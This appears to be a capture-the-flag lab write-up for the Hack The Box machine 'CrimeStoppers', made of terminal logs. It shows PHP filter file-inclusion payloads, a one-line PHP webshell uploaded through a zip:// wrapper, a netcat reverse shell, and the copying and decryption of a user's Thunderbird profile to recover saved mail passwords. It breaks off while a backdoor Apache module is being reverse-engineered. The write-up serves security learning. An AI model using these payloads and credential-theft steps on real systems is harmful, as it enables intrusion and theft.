


#### CrimeStoppers

- [Attacker Info](#attacker-info)
- [Nmap Scan](#nmap-scan)
- [Web Enumeration](#web-enumeration)
- [PHP Filters](#php-filters)
- [Reverse Shell](#reverse-shell)
- [Binary Exploitation](#binary-exploitation)
- [Incidence Response](#incidence-response)

###### Attacker Info

```sh
root@kali:~/crimestoppers# ip addr
1: lo: <LOOPBACK,UP,LOWER_UP> mtu 65536 qdisc noqueue state UNKNOWN group default qlen 1000
    link/loopback 00:00:00:00:00:00 brd 00:00:00:00:00:00
    inet 127.0.0.1/8 scope host lo
       valid_lft forever preferred_lft forever
    inet6 ::1/128 scope host
       valid_lft forever preferred_lft forever
2: eth0: <BROADCAST,MULTICAST,UP,LOWER_UP> mtu 1500 qdisc pfifo_fast state UP group default qlen 1000
    link/ether 00:0c:29:b0:a9:19 brd ff:ff:ff:ff:ff:ff
    inet 192.168.1.8/24 brd 192.168.1.255 scope global dynamic noprefixroute eth0
       valid_lft 86298sec preferred_lft 86298sec
    inet6 fe80::20c:29ff:feb0:a919/64 scope link noprefixroute
       valid_lft forever preferred_lft forever
3: tun0: <POINTOPOINT,MULTICAST,NOARP,UP,LOWER_UP> mtu 1500 qdisc pfifo_fast state UNKNOWN group default qlen 100
    link/none
    inet 10.10.14.16/23 brd 10.10.15.255 scope global tun0
       valid_lft forever preferred_lft forever
    inet6 dead:beef:2::100e/64 scope global
       valid_lft forever preferred_lft forever
    inet6 fe80::2eda:99e1:1a28:f347/64 scope link stable-privacy
       valid_lft forever preferred_lft forever
root@kali:~/crimestoppers#
```

###### Nmap Scan

```sh
root@kali:~/crimestoppers# nmap -sC -sV -oA crimestoppers.nmap 10.10.10.80 -p-
Starting Nmap 7.70 ( https://nmap.org ) at 2018-06-04 20:55 EDT
Nmap scan report for 10.10.10.80
Host is up (0.18s latency).
Not shown: 65534 filtered ports
PORT   STATE SERVICE VERSION
80/tcp open  http    Apache httpd 2.4.25 ((Ubuntu))
|_http-server-header: Apache/2.4.25 (Ubuntu)
|_http-title: FBIs Most Wanted: FSociety

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 289.76 seconds
root@kali:~/crimestoppers#
```


###### Web Enumeration

```
http://10.10.10.80
```


```sh
root@kali:~/crimestoppers# gobuster -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -u http://10.10.10.80 -t 30

Gobuster v1.4.1              OJ Reeves (@TheColonial)
=====================================================
=====================================================
[+] Mode         : dir
[+] Url/Domain   : http://10.10.10.80/
[+] Threads      : 30
[+] Wordlist     : /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
[+] Status codes : 307,200,204,301,302
=====================================================
/images (Status: 301)
/uploads (Status: 301)
/css (Status: 301)
/js (Status: 301)
/javascript (Status: 301)
/fonts (Status: 301)
=====================================================
root@kali:~/crimestoppers#
```

```
http://10.10.10.80/?op=home
```


```
http://10.10.10.80/?op=upload
```


```
http://10.10.10.80/?op=view&secretname=50f6aae65f4c91b28ab170a03cf020baf23dd9b2
```


- Replace `0` to `1`


```
WhiteRose@DarkArmy.htb
```

###### PHP Filters

```
http://10.10.10.80/?op=php://filter/convert.base64-encode/resource=home
```


```sh
root@kali:~/crimestoppers# vim home.b64
root@kali:~/crimestoppers# base64 -d home.b64 > home.php
root@kali:~/crimestoppers# vim home.php
```


```
http://10.10.10.80/?op=php://filter/convert.base64-encode/resource=index
```


```sh
root@kali:~/crimestoppers# vim index.b64
root@kali:~/crimestoppers# base64 -d index.b64 > index.php
root@kali:~/crimestoppers# vim index.php
```


```
http://10.10.10.80/?op=php://filter/convert.base64-encode/resource=list
```


```sh
root@kali:~/crimestoppers# vim list.b64
root@kali:~/crimestoppers# base64 -d list.b64 > list.php
root@kali:~/crimestoppers# vim list.php
```



```
http://10.10.10.80/?op=php://filter/convert.base64-encode/resource=upload
```


```sh
root@kali:~/crimestoppers# vim upload.b64
root@kali:~/crimestoppers# base64 -d upload.b64 > upload.php
root@kali:~/crimestoppers# vim upload.php
```


```
http://10.10.10.80/?op=php://filter/convert.base64-encode/resource=view
```


```sh
root@kali:~/crimestoppers# vim view.b64
root@kali:~/crimestoppers# base64 -d view.b64 > view.php
root@kali:~/crimestoppers# vim view.php
```


```
http://10.10.10.80/?op=php://filter/convert.base64-encode/resource=common
```


```sh
root@kali:~/crimestoppers# vim common.b64
root@kali:~/crimestoppers# base64 -d common.b64 > common.php
root@kali:~/crimestoppers# vim common.php
```


```
http://10.10.10.80/uploads/10.10.14.16/
```


```sh
root@kali:~/crimestoppers# cat cmd.php
<?php echo system($_REQUEST['cmd']); ?>
root@kali:~/crimestoppers# zip cmd.zip cmd.php
  adding: cmd.php (stored 0%)
root@kali:~/crimestoppers#
root@kali:~/crimestoppers# base64 cmd.zip
UEsDBAoAAAAAABQVxUyXIvT2KAAAACgAAAAHABwAY21kLnBocFVUCQADZzAWW4YwFlt1eAsAAQQA
AAAABAAAAAA8P3BocCBlY2hvIHN5c3RlbSgkX1JFUVVFU1RbJ2NtZCddKTsgPz4KUEsBAh4DCgAA
AAAAFBXFTJci9PYoAAAAKAAAAAcAGAAAAAAAAQAAAKSBAAAAAGNtZC5waHBVVAUAA2cwFlt1eAsA
AQQAAAAABAAAAABQSwUGAAAAAAEAAQBNAAAAaQAAAAAA
root@kali:~/crimestoppers#
root@kali:~/crimestoppers# base64 -w 0 cmd.zip
UEsDBAoAAAAAABQVxUyXIvT2KAAAACgAAAAHABwAY21kLnBocFVUCQADZzAWW4YwFlt1eAsAAQQAAAAABAAAAAA8P3BocCBlY2hvIHN5c3RlbSgkX1JFUVVFU1RbJ2NtZCddKTsgPz4KUEsBAh4DCgAAAAAAFBXFTJci9PYoAAAAKAAAAAcAGAAAAAAAAQAAAKSBAAAAAGNtZC5waHBVVAUAA2cwFlt1eAsAAQQAAAAABAAAAABQSwUGAAAAAAEAAQBNAAAAaQAAAAAA
root@kali:~/crimestoppers#
root@kali:~/crimestoppers#
```


```sh
root@kali:~/crimestoppers# curl 10.10.10.80/uploads/10.10.14.16/72fa17e40cc730b56fc423493207d3c9b01ead34 --output out.zip
  % Total    % Received % Xferd  Average Speed   Time    Time     Time  Current
                                 Dload  Upload   Total   Spent    Left  Speed
100   204  100   204    0     0    351      0 --:--:-- --:--:-- --:--:--   351
root@kali:~/crimestoppers#
root@kali:~/crimestoppers# md5sum *.zip
7651099859c8bed23d668b6ae09321cc  cmd.zip
7651099859c8bed23d668b6ae09321cc  out.zip
root@kali:~/crimestoppers#
```

```sh
zip://uploads/10.10.14.16/72fa17e40cc730b56fc423493207d3c9b01ead34%23cmd&cmd=whoami
```


###### Reverse Shell

[`reverse-shell-cheat-sheet`](http://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet)


[`Upgrading simple shells to fully interactive TTYs`](https://blog.ropnop.com/upgrading-simple-shells-to-fully-interactive-ttys/#method3upgradingfromnetcatwithmagic)

```sh
root@kali:~/crimestoppers# nc -nlvp 9001
listening on [any] 9001 ...
connect to [10.10.14.16] from (UNKNOWN) [10.10.10.80] 57626
/bin/sh: 0: can't access tty; job control turned off
$ python -c 'import pty; pty.spawn("/bin/bash")'
/bin/sh: 1: python: not found
$ python3 -c 'import pty; pty.spawn("/bin/bash")'
www-data@ubuntu:/var/www/html$ ^Z
[1]+  Stopped                 nc -nlvp 9001
root@kali:~/crimestoppers# echo $TERM
xterm-256color
root@kali:~/crimestoppers# stty -a
speed 38400 baud; rows 51; columns 204; line = 0;
intr = ^C; quit = ^\; erase = ^?; kill = ^U; eof = ^D; eol = M-^?; eol2 = M-^?; swtch = <undef>; start = ^Q; stop = ^S; susp = ^Z; rprnt = ^R; werase = ^W; lnext = ^V; discard = ^O; min = 1; time = 0;
-parenb -parodd -cmspar cs8 -hupcl -cstopb cread -clocal -crtscts
-ignbrk -brkint -ignpar -parmrk -inpck -istrip -inlcr -igncr icrnl ixon -ixoff -iuclc ixany imaxbel iutf8
opost -olcuc -ocrnl onlcr -onocr -onlret -ofill -ofdel nl0 cr0 tab0 bs0 vt0 ff0
isig icanon iexten echo echoe echok -echonl -noflsh -xcase -tostop -echoprt echoctl echoke -flusho -extproc
root@kali:~/crimestoppers# stty raw -echo
root@kali:~/crimestoppers# nc -nlvp 9001
                                        reset
reset: unknown terminal type unknown
Terminal type? xterm-256color

www-data@ubuntu:/var/www/html$ export SHELL=bash
www-data@ubuntu:/var/www/html$ stty rows 51 columns 204
www-data@ubuntu:/var/www/html$
```

```sh
www-data@ubuntu:/var/www/html$ ls -l
total 48
-rw-r--r-- 1 root dom  283 Dec 16 12:21 common.php
drwxrwxr-x 2 root dom 4096 Dec 16 12:21 css
drwxrwxr-x 2 root dom 4096 Dec 16 12:21 fonts
-rw-r--r-- 1 root dom 2550 Dec 16 12:21 home.php
drwxr-xr-x 2 root dom 4096 Dec 16 12:21 images
-rw-r--r-- 1 root dom 2515 Dec 23 12:50 index.php
drwxrwxr-x 2 root dom 4096 Dec 16 12:21 js
-rw-r--r-- 1 root dom  523 Dec 22 10:40 list.php
-rw-r--r-- 1 root dom  130 Dec 16 12:21 super-secret-credits-random-stuff
-rw-r--r-- 1 root dom 1889 Dec 23 11:29 upload.php
drwxrwxrwx 3 root dom 4096 Jun  4 18:26 uploads
-rw-r--r-- 1 root dom  426 Dec 23 11:25 view.php
www-data@ubuntu:/var/www/html$ cat super-secret-credits-random-stuff
This was inspired/modified from the 2016 Plaid CTF (Web Pixel Shop), I hope you enjoyed it!  Best of luck getting root.

- IppSec
www-data@ubuntu:/var/www/html$
```

```sh
www-data@ubuntu:/var/www/html$ cd /home/
www-data@ubuntu:/home$ ls
dom
www-data@ubuntu:/home$ cd dom/
www-data@ubuntu:/home/dom$ ls
user.txt
www-data@ubuntu:/home/dom$ cat user.txt
28a3c49d005a8a43d300ac0d4f57f5bd
www-data@ubuntu:/home/dom$
```

```sh
www-data@ubuntu:/home/dom$ ls -lah
total 44K
drwxr-xr-x 5 dom  dom  4.0K Dec 25 18:10 .
drwxr-xr-x 3 root root 4.0K Dec 16 12:01 ..
-rw------- 1 dom  dom    52 Dec 16 12:05 .Xauthority
-rw------- 1 dom  dom     5 Dec 22 10:38 .bash_history
-rw-r--r-- 1 dom  dom   220 Dec 16 12:01 .bash_logout
-rw-r--r-- 1 dom  dom  3.7K Dec 16 12:01 .bashrc
drwx------ 2 dom  dom  4.0K Dec 16 12:03 .cache
-rw-r--r-- 1 dom  dom   675 Dec 16 12:01 .profile
drwx------ 2 dom  dom  4.0K Dec 25 13:25 .ssh
-rw-r--r-- 1 dom  dom     0 Dec 16 12:03 .sudo_as_admin_successful
drw-r-xr-x 3 root root 4.0K Dec 16 13:39 .thunderbird
-r--r--r-- 1 root root   33 Dec 24 11:22 user.txt
www-data@ubuntu:/home/dom$ cd .thunderbird/
www-data@ubuntu:/home/dom/.thunderbird$ ls -l
total 4
drw-r-xr-x 9 root root 4096 Dec 16 13:37 36jinndk.default
www-data@ubuntu:/home/dom/.thunderbird$ tar cvzf /var/www/html/uploads/10.10.14.16/thunder.tar.gz 36jinndk.default/
36jinndk.default/
36jinndk.default/webappsstore.sqlite
36jinndk.default/extensions.ini
36jinndk.default/times.json
36jinndk.default/blist.sqlite
36jinndk.default/.parentlock
36jinndk.default/xulstore.json
36jinndk.default/formhistory.sqlite
36jinndk.default/key3.db
36jinndk.default/blocklist-addons.json
36jinndk.default/addons.json
36jinndk.default/session.json
36jinndk.default/global-messages-db.sqlite
36jinndk.default/datareporting/
36jinndk.default/datareporting/aborted-session-ping
36jinndk.default/datareporting/session-state.json
36jinndk.default/datareporting/state.json
36jinndk.default/places.sqlite-shm
36jinndk.default/kinto.sqlite
36jinndk.default/Mail/
36jinndk.default/Mail/Local Folders/
36jinndk.default/Mail/Local Folders/Trash
36jinndk.default/Mail/Local Folders/Unsent Messages
36jinndk.default/Mail/Local Folders/Unsent Messages.msf
36jinndk.default/Mail/Local Folders/Trash.msf
36jinndk.default/blocklist.xml
36jinndk.default/mailViews.dat
36jinndk.default/places.sqlite
36jinndk.default/abook.mab
36jinndk.default/cert8.db
36jinndk.default/places.sqlite-wal
36jinndk.default/logins.json
36jinndk.default/search.json.mozlz4
36jinndk.default/minidumps/
36jinndk.default/permissions.sqlite
36jinndk.default/storage.sqlite
36jinndk.default/cookies.sqlite-wal
36jinndk.default/gmp/
36jinndk.default/gmp/Linux_x86_64-gcc3/
36jinndk.default/blocklist-plugins.json
36jinndk.default/extensions.json
36jinndk.default/history.mab
36jinndk.default/directoryTree.json
36jinndk.default/sessionCheckpoints.json
36jinndk.default/prefs.js
36jinndk.default/webappsstore.sqlite-wal
36jinndk.default/content-prefs.sqlite
36jinndk.default/panacea.dat
36jinndk.default/ImapMail/
36jinndk.default/ImapMail/crimestoppers.htb/
36jinndk.default/ImapMail/crimestoppers.htb/INBOX.msf
36jinndk.default/ImapMail/crimestoppers.htb/Drafts-1.msf
36jinndk.default/ImapMail/crimestoppers.htb/Drafts-1
36jinndk.default/ImapMail/crimestoppers.htb/Sent-1.msf
36jinndk.default/ImapMail/crimestoppers.htb/Junk.msf
36jinndk.default/ImapMail/crimestoppers.htb/Sent.msf
36jinndk.default/ImapMail/crimestoppers.htb/INBOX
36jinndk.default/ImapMail/crimestoppers.htb/Archives.msf
36jinndk.default/ImapMail/crimestoppers.htb/Templates.msf
36jinndk.default/ImapMail/crimestoppers.htb/msgFilterRules.dat
36jinndk.default/ImapMail/crimestoppers.htb/Drafts.msf
36jinndk.default/ImapMail/crimestoppers.htb/Trash.msf
36jinndk.default/ImapMail/crimestoppers.htb/Sent-1
36jinndk.default/ImapMail/crimestoppers.htb.msf
36jinndk.default/cookies.sqlite-shm
36jinndk.default/revocations.txt
36jinndk.default/webappsstore.sqlite-shm
36jinndk.default/blocklist-gfx.json
36jinndk.default/compatibility.ini
36jinndk.default/saved-telemetry-pings/
36jinndk.default/saved-telemetry-pings/c2e629a5-7641-4bee-b97e-a76e6a03e2e0
36jinndk.default/SiteSecurityServiceState.txt
36jinndk.default/cookies.sqlite
36jinndk.default/secmod.db
36jinndk.default/crashes/
36jinndk.default/crashes/events/
36jinndk.default/crashes/store.json.mozlz4
www-data@ubuntu:/home/dom/.thunderbird$
```

```
http://10.10.10.80/uploads/10.10.14.16/
```


```sh
root@kali:~/crimestoppers# wget http://10.10.10.80/uploads/10.10.14.16/thunder.tar.gz
--2018-06-05 03:12:31--  http://10.10.10.80/uploads/10.10.14.16/thunder.tar.gz
Connecting to 10.10.10.80:80... connected.
HTTP request sent, awaiting response... 200 OK
Length: 396452 (387K) [application/x-gzip]
Saving to: ‘thunder.tar.gz’

thunder.tar.gz                                     100%[================================================================================================================>] 387.16K   219KB/s    in 1.8s

2018-06-05 03:12:33 (219 KB/s) - ‘thunder.tar.gz’ saved [396452/396452]

root@kali:~/crimestoppers#
```

```sh
root@kali:~/crimestoppers# tar xvzf thunder.tar.gz
36jinndk.default/
36jinndk.default/webappsstore.sqlite
36jinndk.default/extensions.ini
36jinndk.default/times.json
36jinndk.default/blist.sqlite
36jinndk.default/.parentlock
36jinndk.default/xulstore.json
36jinndk.default/formhistory.sqlite
36jinndk.default/key3.db
36jinndk.default/blocklist-addons.json
36jinndk.default/addons.json
36jinndk.default/session.json
36jinndk.default/global-messages-db.sqlite
36jinndk.default/datareporting/
36jinndk.default/datareporting/aborted-session-ping
36jinndk.default/datareporting/session-state.json
36jinndk.default/datareporting/state.json
36jinndk.default/places.sqlite-shm
36jinndk.default/kinto.sqlite
36jinndk.default/Mail/
36jinndk.default/Mail/Local Folders/
36jinndk.default/Mail/Local Folders/Trash
36jinndk.default/Mail/Local Folders/Unsent Messages
36jinndk.default/Mail/Local Folders/Unsent Messages.msf
36jinndk.default/Mail/Local Folders/Trash.msf
36jinndk.default/blocklist.xml
36jinndk.default/mailViews.dat
36jinndk.default/places.sqlite
36jinndk.default/abook.mab
36jinndk.default/cert8.db
36jinndk.default/places.sqlite-wal
36jinndk.default/logins.json
36jinndk.default/search.json.mozlz4
36jinndk.default/minidumps/
36jinndk.default/permissions.sqlite
36jinndk.default/storage.sqlite
36jinndk.default/cookies.sqlite-wal
36jinndk.default/gmp/
36jinndk.default/gmp/Linux_x86_64-gcc3/
36jinndk.default/blocklist-plugins.json
36jinndk.default/extensions.json
36jinndk.default/history.mab
36jinndk.default/directoryTree.json
36jinndk.default/sessionCheckpoints.json
36jinndk.default/prefs.js
36jinndk.default/webappsstore.sqlite-wal
36jinndk.default/content-prefs.sqlite
36jinndk.default/panacea.dat
36jinndk.default/ImapMail/
36jinndk.default/ImapMail/crimestoppers.htb/
36jinndk.default/ImapMail/crimestoppers.htb/INBOX.msf
36jinndk.default/ImapMail/crimestoppers.htb/Drafts-1.msf
36jinndk.default/ImapMail/crimestoppers.htb/Drafts-1
36jinndk.default/ImapMail/crimestoppers.htb/Sent-1.msf
36jinndk.default/ImapMail/crimestoppers.htb/Junk.msf
36jinndk.default/ImapMail/crimestoppers.htb/Sent.msf
36jinndk.default/ImapMail/crimestoppers.htb/INBOX
36jinndk.default/ImapMail/crimestoppers.htb/Archives.msf
36jinndk.default/ImapMail/crimestoppers.htb/Templates.msf
36jinndk.default/ImapMail/crimestoppers.htb/msgFilterRules.dat
36jinndk.default/ImapMail/crimestoppers.htb/Drafts.msf
36jinndk.default/ImapMail/crimestoppers.htb/Trash.msf
36jinndk.default/ImapMail/crimestoppers.htb/Sent-1
36jinndk.default/ImapMail/crimestoppers.htb.msf
36jinndk.default/cookies.sqlite-shm
36jinndk.default/revocations.txt
36jinndk.default/webappsstore.sqlite-shm
36jinndk.default/blocklist-gfx.json
36jinndk.default/compatibility.ini
36jinndk.default/saved-telemetry-pings/
36jinndk.default/saved-telemetry-pings/c2e629a5-7641-4bee-b97e-a76e6a03e2e0
36jinndk.default/SiteSecurityServiceState.txt
36jinndk.default/cookies.sqlite
36jinndk.default/secmod.db
36jinndk.default/crashes/
36jinndk.default/crashes/events/
36jinndk.default/crashes/store.json.mozlz4
root@kali:~/crimestoppers#
```

```sh
root@kali:~/crimestoppers# apt install thunderbird
```

```sh
root@kali:~/crimestoppers# mv 36jinndk.default/ ~/.thunderbird/
```

```sh
root@kali:~# cd .thunderbird/
root@kali:~/.thunderbird# ls -l
total 16
drw-r-xr-x 9 root root 4096 Dec 16 16:37  36jinndk.default
drwx------ 3 root root 4096 Jun  5 03:16 'Crash Reports'
-rw-r--r-- 1 root root  104 Jun  5 03:16  profiles.ini
drwx------ 7 root root 4096 Jun  5 03:16  zbvcdrkv.default
root@kali:~/.thunderbird# vim profiles.ini
root@kali:~/.thunderbird# cat profiles.ini
[General]
StartWithLastProfile=1

[Profile0]
Name=default
IsRelative=1
Path=36jinndk.default
Default=1

root@kali:~/.thunderbird#
```

```sh
root@kali:~# thunderbird &
[1] 4912
root@kali:~#
```




[`firefox_decrypt `](https://github.com/unode/firefox_decrypt)


```sh
root@kali:~/crimestoppers# git clone https://github.com/unode/firefox_decrypt.git
Cloning into 'firefox_decrypt'...
remote: Counting objects: 632, done.
remote: Compressing objects: 100% (65/65), done.
remote: Total 632 (delta 56), reused 90 (delta 40), pack-reused 524
Receiving objects: 100% (632/632), 232.23 KiB | 2.55 MiB/s, done.
Resolving deltas: 100% (364/364), done.
root@kali:~/crimestoppers# cd firefox_decrypt/
root@kali:~/crimestoppers/firefox_decrypt# python firefox_decrypt.py -h
usage: firefox_decrypt.py [-h] [-e]
                          [--pass-compat {default,browserpass,username}]
                          [-p PASS_PREFIX] [-m PASS_CMD] [-f {csv,human}]
                          [-d DELIMITER] [-q QUOTECHAR] [-n] [-c CHOICE] [-l]
                          [-v] [--version]
                          [profile]

Access Firefox/Thunderbird profiles and decrypt existing passwords

positional arguments:
  profile               Path to profile folder (default: ~/.mozilla/firefox)

optional arguments:
  -h, --help            show this help message and exit
  -e, --export-pass     Export URL, username and password to pass from
                        passwordstore.org
  --pass-compat {default,browserpass,username}
                        Export username as is (default), or with one of the
                        compatiblity modes
  -p PASS_PREFIX, --pass-prefix PASS_PREFIX
                        Prefix for export to pass from passwordstore.org
                        (default: web)
  -m PASS_CMD, --pass-cmd PASS_CMD
                        Command/path to use when exporting to pass (default:
                        pass)
  -f {csv,human}, --format {csv,human}
                        Format for the output.
  -d DELIMITER, --delimiter DELIMITER
                        The delimiter for csv output
  -q QUOTECHAR, --quotechar QUOTECHAR
                        The quote char for csv output
  -n, --no-interactive  Disable interactivity.
  -c CHOICE, --choice CHOICE
                        The profile to use (starts with 1). If only one
                        profile, defaults to that.
  -l, --list            List profiles and exit.
  -v, --verbose         Verbosity level. Warning on -vv (highest level) user
                        input will be printed on screen
  --version             Display version of firefox_decrypt and exit
root@kali:~/crimestoppers/firefox_decrypt#
```

```sh
root@kali:~/crimestoppers/firefox_decrypt# python firefox_decrypt.py ~/.thunderbird/

Master Password for profile /root/.thunderbird/36jinndk.default:
2018-06-05 03:24:14,882 - WARNING - Attempting decryption with no Master Password

Website:   imap://crimestoppers.htb
Username: 'dom@crimestoppers.htb'
Password: 'Gummer59'

Website:   smtp://crimestoppers.htb
Username: 'dom@crimestoppers.htb'
Password: 'Gummer59'
root@kali:~/crimestoppers/firefox_decrypt#
```

```sh
www-data@ubuntu:/home/dom/.thunderbird$ ip addr
1: lo: <LOOPBACK,UP,LOWER_UP> mtu 65536 qdisc noqueue state UNKNOWN group default qlen 1000
    link/loopback 00:00:00:00:00:00 brd 00:00:00:00:00:00
    inet 127.0.0.1/8 scope host lo
       valid_lft forever preferred_lft forever
    inet6 ::1/128 scope host
       valid_lft forever preferred_lft forever
2: ens33: <BROADCAST,MULTICAST,UP,LOWER_UP> mtu 1500 qdisc pfifo_fast state UP group default qlen 1000
    link/ether 00:50:56:8f:1e:cd brd ff:ff:ff:ff:ff:ff
    inet 10.10.10.80/24 brd 10.10.10.255 scope global ens33
       valid_lft forever preferred_lft forever
    inet6 dead:beef::250:56ff:fe8f:1ecd/64 scope global mngtmpaddr dynamic
       valid_lft 86063sec preferred_lft 14063sec
    inet6 fe80::250:56ff:fe8f:1ecd/64 scope link
       valid_lft forever preferred_lft forever
www-data@ubuntu:/home/dom/.thunderbird$
```

```sh
www-data@ubuntu:/home/dom/.thunderbird$ find / -name iptables 2>/dev/null
/sbin/iptables
/usr/share/lintian/overrides/iptables
/usr/share/doc/iptables
/usr/share/ufw/iptables
/usr/share/bash-completion/completions/iptables
/usr/share/iptables
/etc/iptables
www-data@ubuntu:/home/dom/.thunderbird$ cd /etc/iptables
www-data@ubuntu:/etc/iptables$ ls -l
total 8
-rw-r----- 1 root root 413 Dec 23 10:47 rules.v4
-rw-r----- 1 root root 191 Dec 23 10:47 rules.v6
www-data@ubuntu:/etc/iptables$
```

```sh
root@kali:~/crimestoppers# ssh dom@10.10.10.80
ssh: connect to host 10.10.10.80 port 22: No route to host
root@kali:~/crimestoppers#
```

```sh
root@kali:~/crimestoppers# ssh dom@dead:beef::250:56ff:fe8f:1ecd
The authenticity of host 'dead:beef::250:56ff:fe8f:1ecd (dead:beef::250:56ff:fe8f:1ecd)' can't be established.
ECDSA key fingerprint is SHA256:uD0ZEfB+GLhRfZnyahFwlC17R+c/JaC136Mn7HarWtU.
Are you sure you want to continue connecting (yes/no)? yes
Warning: Permanently added 'dead:beef::250:56ff:fe8f:1ecd' (ECDSA) to the list of known hosts.
dom@dead:beef::250:56ff:fe8f:1ecd's password:
Welcome to Ubuntu 17.04 (GNU/Linux 4.10.0-42-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

Last login: Thu Dec 28 05:45:02 2017 from dead:beef:2::1002
dom@ubuntu:~$ id
uid=1000(dom) gid=1000(dom) groups=1000(dom),4(adm),24(cdrom),27(sudo),30(dip),46(plugdev),114(lpadmin),115(sambashare)
dom@ubuntu:~$
```


###### Binary Exploitation


```sh
www-data@ubuntu:/etc/iptables$ ls -l /usr/lib/apache2/modules/mod_rootme.so
-rw-r----- 1 root dom 48584 Dec 22 10:16 /usr/lib/apache2/modules/mod_rootme.so
www-data@ubuntu:/etc/iptables$
```

```sh
root@kali:~/crimestoppers# scp -6 dom@[dead:beef::250:56ff:fe8f:1ecd]:/usr/lib/apache2/modules/mod_rootme.so .
dom@dead:beef::250:56ff:fe8f:1ecd's password:
mod_rootme.so                                                                                                                                                             100%   47KB  81.3KB/s   00:00
root@kali:~/crimestoppers#
```

```sh
root@kali:~/crimestoppers# r2 mod_rootme.so
[0x00000f70]> aaa
[x] Analyze all flags starting with sym. and entry0 (aa)
[x] Analyze len bytes of instructions for references (aar)
[x] Analyze function calls (aac)
[x] Use -AA or aaaa to perform additional experimental analysis.
[x] Constructing a function name for fcn.* and sym.func.* functions (aan)
[0x00000f70]> afl
0x00000e40    3 23           sym._init
0x00000e70    1 6            sym.imp.free
0x00000e78    1 6            sym.imp.recv
0x00000e80    1 6            sym.imp.strncpy
0x00000e88    1 6            sym.imp.write
0x00000e90    1 6            sym.imp.shutdown
0x00000e98    1 6            sym.imp.chdir
0x00000ea0    1 6            sym.imp.__stack_chk_fail
0x00000ea8    1 6            sym.imp.dup2
0x00000eb0    1 6            sym.imp.send
0x00000eb8    1 6            sym.imp.__fdelt_chk
0x00000ec0    1 6            loc.imp.ap_hook_post_config
0x00000ec8    1 6            sym.imp.ioctl
0x00000ed0    1 6            sym.imp.close
0x00000ed8    1 6            sym.imp.pipe
0x00000ee0    1 6            sym.imp.setsid
0x00000ee8    1 6            sym.imp.read
0x00000ef0    1 6            sym.imp.putenv
0x00000f00    1 6            sym.imp.strcmp
0x00000f08    1 6            sym.imp.kill
0x00000f10    1 6            sym.imp.openpty
0x00000f18    1 6            sym.imp.select
0x00000f20    1 6            sym.imp.malloc
0x00000f28    1 6            sym.imp.ttyname
0x00000f30    1 6            sym.imp.waitpid
0x00000f38    1 6            sym.imp.access
0x00000f40    1 6            sym.imp.getppid
0x00000f48    1 6            sym.imp.exit
0x00000f50    1 6            sym.imp.execlp
0x00000f58    1 6            sym.imp.__cxa_finalize
0x00000f60    1 6            sym.imp.fork
0x00000f70    4 50   -> 44   entry0
0x00000fb0    4 66   -> 57   sym.register_tm_clones
0x00001000    5 50           sym.__do_global_dtors_aux
0x00001040    4 48   -> 42   entry1.init
0x00001070   16 586  -> 563  sym.process_client
0x000012c0    1 100          sym.runshell_raw
0x00001330   27 934  -> 904  sym.runshell_pty
